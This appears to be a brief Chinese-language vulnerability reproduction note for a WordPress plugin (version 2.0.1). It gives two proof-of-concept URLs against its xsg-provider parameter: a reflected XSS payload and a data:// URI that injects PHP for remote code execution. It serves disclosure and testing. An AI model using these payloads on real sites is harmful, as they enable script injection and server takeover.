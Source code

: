 已安装受影响的插件版本(2.0.1)，启动安装完wordpress后，可直接到插件中心激活插件。

XSS:

```
/?p=1&xsg-provider=%3Cimg%20src%20onerror=alert(1)%3E&xsg-format=yyy&xsg-type=zz&xsg-page=pp
```

PHP开启allow_url_open时可RCE:

```
/?p=1&xsg-provider=data://text/html,%3C?php%20phpinfo();%20//&xsg-format=yyy&xsg-type=zz&xsg-page=pp
```

